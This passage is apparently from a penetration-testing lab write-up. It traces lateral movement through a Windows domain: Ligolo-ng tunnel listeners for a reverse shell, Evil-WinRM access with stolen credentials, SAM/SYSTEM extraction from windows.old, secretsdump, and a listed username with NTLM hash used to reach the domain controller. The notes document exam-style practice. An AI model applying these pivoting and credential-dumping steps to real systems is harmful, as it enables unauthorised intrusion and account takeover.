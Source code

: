 	# Start tunnel on Ligolo
	ligolo-ng>> start
	```
- Use crackmapexec winrm to see where we can go
	- Try with celia.almeda credentials since we dont see mary.williams in the BloodHound results (may not be part of the domain, just a local user)
	![[Pasted image 20250216191045.png]]
- Looks like we can use celia to enter MS02 :3
## MS02
### Intial Entry
- Use Evil-WinRM to enter the machine as celia.almeda then upload reverse shell (add listeners on ligolo-ng tunnel first)
	```shell
	# Listener for reverse shell
	ligolo-ng>> listener_add --addr 0.0.0.0:5555 --to 127.0.0.1:5555 --tcp
	
	# Listener for HTTP server (on Kali port 80)
	ligolo-ng>> listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:80
	```
### Enumeration
- Download winPEAS and run
	- sql server running on 5985
		![[Pasted image 20250216193737.png]]
- Found windows.old (?)
	- Might be an old backup of the original Windows filesystem
	- Extract SAM and SYSTEM from C:\windows.old\Windows\System32
### Cracking
- Use impacket-secretsdump
	![[Pasted image 20250216195742.png]]
## DC01
### Initial Access
- Use tom_admin credentials to access DC01
	- tom_admin:4979d69d4ca66955c075c41cf45f24dc
- tom_admin is already local admin (YIPEEE)
### Flag
- Find proof.txt on Administrator's Desktop
	![[Pasted image 20250216200133.png]]
# AERO - 192.168.178.143
## Initial Scan
```c
# Nmap 7.95 scan initiated Sun Feb 16 18:28:13 2025 as: /usr/lib/nmap/nmap --privileged -p- -A -T4 -oN AERO.txt 192.168.178.143
Nmap scan report for 192.168.178.143
Host is up (0.0046s latency).
Not shown: 65525 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
```